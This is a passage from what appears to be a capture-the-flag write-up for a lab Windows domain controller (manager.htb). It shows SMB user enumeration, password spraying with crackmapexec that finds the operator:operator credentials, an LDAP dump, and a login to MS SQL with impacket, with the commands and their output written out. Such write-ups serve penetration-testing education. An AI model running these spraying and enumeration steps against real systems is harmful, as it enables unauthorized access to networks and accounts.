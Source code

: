 ```
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

So far, we found the following users:

- zhong
- cheng
- ryan
- raven
- jinwoo
- chinhae
- operator

We have a complete version number: `Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)`

Now we can do password spraying with the users:

```bash
crackmapexec smb 10.10.11.236 -u exfil/users -p exfil/users
```

And we found out the username and password for `operator`:

```
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
```

## Lateral movement

With that user we cannot do much, if we try to connect with evil-winrm, we will get connection refused.

LDAP is opened, we can try to dump all the contents of it:

```bash
ldapdomaindump 10.10.11.236 -u 'manager.htb\operator' -p 'operator' --no-json --no-grep
```

MS SQL is also open, so we can try to connect using the found user/password:

```bash
mssqlclient.py manager.htb/operator:operator@dc01.manager.htb -windows-auth
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> 
```
